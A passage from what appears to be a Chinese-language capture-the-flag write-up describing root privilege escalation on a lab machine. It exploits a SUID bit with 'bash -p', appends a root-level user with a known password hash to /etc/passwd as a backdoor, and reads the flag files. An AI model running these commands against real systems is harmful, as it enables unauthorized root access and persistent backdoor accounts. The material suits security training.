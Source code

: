 3. 退出 `scala` 后，执行 `bash -p` 来利用 SUID 位，获得一个 `euid=0` 的 root 权限 Shell。

   ```bash
   welcome@Chabaidao:~$ bash -p
   bash-5.0# id
   uid=1000(welcome) gid=1000(welcome) euid=0(root) egid=0(root) groups=0(root),1000(welcome)
   bash-5.0# whoami
   root
   bash-5.0#echo 'b:$1$AydoDDh4$tEky6m30.0nY3HZ8FgoGI0:0:0::/root:/bin/bash' >> /etc/passwd
   bash-5.0#su b
   Password: abcdefg
   root@Chabaidao:~# id
   uid=0(root) gid=0(root) groups=0(root)
   root@Chabaidao:~# cat /home/welcome/user.txt /root/root.txt 
   flag{user-12fc204edeae5b57713c5ad7dcb97d39}
   flag{root-12fc204edeae5b57713c5ad7dcb97d39}
   ```

成功提权至 root，渗透测试完成。